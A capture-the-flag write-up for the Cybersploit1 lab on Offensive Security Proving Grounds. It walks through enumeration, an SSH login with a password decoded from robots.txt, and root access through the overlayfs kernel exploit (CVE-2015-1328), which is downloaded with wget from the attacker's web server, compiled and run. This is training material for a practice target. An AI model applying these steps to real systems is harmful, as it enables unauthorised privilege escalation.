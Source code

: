 # Cybersploit1
**Date:** June 1st 2022

**Author:** j.info

**Link:** [**Proving Grounds**](https://portal.offensive-security.com/proving-grounds/play) on Offensive Security

**PG Difficulty Rating:** Easy

<br>

![](images/cybersploit10.png)

<br>

## Objectives
- user.txt flag
- proof.txt flag

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 192.168.216.92`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Hello Pentester!
```

<br>

### Gobuster Scan

`gobuster dir -u http://192.168.216.92 -t 100 -r -x php,txt,html -w dir-med.txt`

```
/index.html           (Status: 200) [Size: 2333]
/robots.txt           (Status: 200) [Size: 53]
/hacker               (Status: 200) [Size: 3757743]
```

<br>

## Website Digging

Visiting the main page:

![](images/cybersploit11.png)

Looking at the page source code shows us a username in a comment:

![](images/cybersploit12.png)

Checking out **robots.txt** shows a base64 encoded string:

![](images/cybersploit13.png)

Decoding that string:

`echo "Y3liZXJzcGxvaXR7eW91dHViZS5jb20vYy9jeWJlcnNwbG9pdH0=" | base64 -d`

```
cybersploit{youtube.com/c/cybersploit}
```

Visiting that webpage doesn't provide anything for the CTF but it does look like it's probably the channel for the maker of this challenge.

Looking at **/hacker** just shows us the image on the home page.

<br>

## System Access

Not having much else to go on I try the decoded base64 string (which looks more like a flag than a password) and it works for an ssh in as itsskv:

```
itsskv@192.168.216.92's password: 
Welcome to Ubuntu 12.04.5 LTS (GNU/Linux 3.13.0-32-generic i686)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.6 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


Your Hardware Enablement Stack (HWE) is supported until April 2017.

itsskv@cybersploit-CTF:~$
```

<br>

## System Enumeration

Looking in our home directory shows **local.txt** which is our first flag on this CTF:

`wc -c local.txt`

```
33 local.txt
```

I check `sudo -l` but we aren't allowed to run anything as root on this user.

Checking for **SUID** and **SGID** files doesn't show us anything interesting. Nor does looking at all files with **capabilities**.

I look at **cronjobs** and there aren't any on the system.

We have standard groups when checking `id`:

```
uid=1001(itsskv) gid=1001(itsskv) groups=1001(itsskv)
```

Other users with bash login shells:

```
root:x:0:0:root:/root:/bin/bash
cybersploit:x:1000:1000:cybersploit,,,:/home/cybersploit:/bin/bash
itsskv:x:1001:1001:,,,:/home/itsskv:/bin/bash
```

One note is looking at **/etc/passwd** shows that all accounts other than those 3 above are set to **/bin/sh** instead of **nologin** or **false** like normal. Strange.

Checking in **/opt** doesn't have anything listed.

The web directory **/var/www** only has 3 files which we've already seen previously through the website.

Taking a look at **/etc/issues** shows us that it's:

```
Ubuntu 12.04.5 LTS \n \l
```

Doing a quick google search for "ubuntu 12.04.5 exploit" shows us this as the top result:

![](images/cybersploit14.png)

It says Ubuntu 12.04 systems with kernal versions before June 6th 2015 are vulnerable to this exploit. I check `uname -a` and it should work on this system:

```
Linux cybersploit-CTF 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686 athlon i386 GNU/Linux
```

On my home system I use **searchsploit** to move the code over to my current directory, host a simple python webserver, and wget the file over to the target system:

`searchsploit -m 37292`

`python3 -m http.server 80`

`wget 192.168.49.216/37292.c`

Compiling the code on that target system:

`gcc 37292.c -o exploit`

```
-rwxrwxr-x  1 itsskv  itsskv   12016 Jun  1 20:49 exploit
```

<br>

## Root

Now that we have it compiled lets run and see if it works. According to the exploit-db page you just run it and don't need to provide any arguments:

`./exploit`

```
itsskv@cybersploit-CTF:/tmp$ ./exploit
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami
root
# hostname
cybersploit-CTF
```

Well, that was definitely an easy exploit to use and we have root!

Looking in **/root** we find our final flag in **proof.txt**:

`wc -c /root/proof.txt`

```
33 /root/proof.txt
```

<br>

With that we've completed this CTF!

![](images/cybersploit15.png)

<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Finding a comment in the **webpage source code** that listed a username
- Decoding a **base64** string that was found in **robots.txt**
- Using the username and decoded string to login via **ssh**
- Noticing that the system is a very old version at **Ubuntu 12.04.5** and finding it's vulnerable to **CVE-2015-1328** aka **overlayfs**
- Using the **overlayfs** exploit to escalate our privilages to root

<br>

Many thanks to:
- [**Offensive Security**](https://www.offensive-security.com/) for hosting this CTF
